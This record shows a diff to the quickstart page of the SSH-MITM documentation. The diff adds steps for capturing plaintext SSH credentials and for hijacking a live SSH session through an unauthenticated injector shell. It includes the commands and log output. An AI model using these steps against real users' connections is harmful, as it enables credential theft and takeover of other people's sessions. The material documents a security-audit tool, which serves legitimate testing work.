

Before and after one commit to ssh-mitm/ssh-mitm, a Sphinx documentation site: the page built from doc/quickstart.rst, in a window 1280 px wide and 1400 px high, scrolled down 484 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 1613 px from its top, so only the background shows below that.

Commit message:
added mirrorshell example to quickstart

```diff
--- a/doc/quickstart.rst
+++ b/doc/quickstart.rst
@@ -38,9 +38,51 @@
     :linenos:
 
     2021-01-01 11:38:26,098 [INFO]  Client connection established with parameters:
-        Remote Address: 127.0.0.1
+        Remote Address: 192.168.0.x
         Port: 22
         Username: user
         Password: supersecret
         Key: None
         Agent: None
+
+
+Hijack a SSH terminal session
+-----------------------------
+
+Getting the plain text credentials is only half the fun.
+SSH-MITM proxy server is able to hijack a ssh session and allows you to interact with it.
+
+Let's get startet with hijacking the session.
+
+.. code-block:: bash
+    :linenos:
+
+    $ ssh-mitm --remote-host 192.168.0.x --ssh-interface ssh_proxy_server.plugins.ssh.mirrorshell.SSHMirrorForwarder
+
+Connect your ssh client with the ssh-mitm proxy.
+
+.. code-block:: bash
+    :linenos:
+
+    $ ssh -p 10022 user@proxyserver
+
+When a client connects, the ssh-mitm proxy server starts a new server, where you can connect with another ssh client.
+This server is used to hijack the session.
+
+.. code-block:: none
+    :linenos:
+
+    2021-01-01 11:42:43,699 [INFO]  created injector shell on port 34463. connect with: ssh -p 34463 127.0.0.1
+
+To hijack the session, you can use your favorite ssh client. This connection does not require authentication.
+
+.. code-block:: bash
+    :linenos:
+
+    $ ssh -p 34463 127.0.0.1
+
+After you are connected, your session will only be updated with new responses, but you are able to execute commands.
+
+Try to execute somme commands in the hijacked session or in the original session.
+
+The output will be shown in both sessions.
```
